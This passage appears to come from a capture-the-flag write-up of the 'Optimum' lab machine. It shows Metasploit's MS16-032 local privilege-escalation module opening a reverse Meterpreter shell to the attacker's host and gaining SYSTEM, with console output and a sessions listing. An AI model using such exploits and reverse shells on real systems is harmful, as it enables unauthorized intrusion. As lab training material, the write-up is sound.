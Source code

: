 Now its time to `run` it and what it collect potiential vulnerabilities for us.
If you'd like to see the output for the Suggester's `run`, its collapsed below.


<details><summary>Suggester Output</summary></details>


Looks like we have 5 options to choose from.
After some trial and error, it appears to be vulnerable to `ms16_032_secondary_logon_handle_privesc` exploit.
There's quite a bit of info that populates the screen.
Because of this, I've taken the begining and end of the output.
```bash
[*] Started reverse TCP handler on 10.10.16.5:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\FGOUYkFK.ps1...
[*] Compressing script contents...
[+] Compressed size: 3741
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

<- SNIP ->

[+] Executed on target machine.
[*] Sending stage (175686 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.16.5:4444 -> 10.10.10.8:49163) at 2023-08-18 16:38:56 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\FGOUYkFK.ps1

meterpreter > 
```

Before continuing, its nice to see how Metasploit handles multiple sessions.
Again, we can take a look at all active sessions with the `session` command.
We get some nice information such as what user is active on that session and connection information.

```bash
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  OPTIMUM\kostas @ OPTIMUM       10.10.16.5:4444 -> 10.10.10.8:49162 (10.10.10.8)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ OPTIMUM  10.10.16.5:4444 -> 10.10.10.8:49163 (10.10.10.8)

msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > 
```

